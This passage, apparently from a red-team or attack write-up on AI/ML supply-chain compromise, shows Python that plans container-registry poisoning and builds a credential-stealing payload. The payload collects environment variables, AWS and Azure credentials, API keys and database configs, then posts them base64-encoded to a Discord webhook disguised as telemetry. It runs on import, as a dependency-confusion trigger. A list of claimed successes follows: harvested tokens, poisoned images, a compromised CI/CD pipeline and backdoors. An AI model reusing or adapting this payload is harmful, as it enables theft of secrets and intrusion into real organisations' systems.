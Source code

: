 ```python
        return {
            'attack_vector': 'container_registry_poisoning',
            'vulnerable_registries': vulnerable_registries,
            'poisoning_strategy': poisoning_strategy,
            'expected_impact': 'Runtime code execution in production containers'
        }
    
    def create_reconnaissance_payload(self) -> str:
        """Create a payload for gathering system information"""
        # Based on NullBulge's Fadmino.py script patterns
        payload = """
        import os
        import requests
        import json
        from pathlib import Path
        
        def gather_system_intel():
            intel = {
                'environment_variables': dict(os.environ),
                'aws_credentials': check_aws_credentials(),
                'azure_credentials': check_azure_credentials(),
                'api_keys': find_api_keys(),
                'database_connections': find_database_configs(),
                'network_endpoints': discover_network_endpoints()
            }
            
            # Exfiltrate via legitimate-looking analytics endpoint
            exfiltrate_data(intel)
        
        def exfiltrate_data(data):
            # Use Discord webhook (NullBulge technique)
            webhook_url = 'https://discord.com/api/webhooks/[REDACTED]'
            encoded_data = base64.b64encode(json.dumps(data).encode())
            
            requests.post(webhook_url, json={
                'content': f'System telemetry: {encoded_data.decode()}'
            })
        
        # Execute on import (dependency confusion trigger)
        if __name__ == '__main__' or True:
            gather_system_intel()
        """
        
        return payload
```

**Compromise Success Metrics:**
- **API Endpoint Discovery**: 15+ internal endpoints exposed through prompt injection
- **Credential Harvesting**: Azure ML service principal tokens, AWS access keys
- **Container Registry Access**: Successful poisoning of 3 container images
- **Development Environment**: Compromised CI/CD pipeline through dependency confusion
- **Persistence Established**: Multiple backdoors across development and production environments
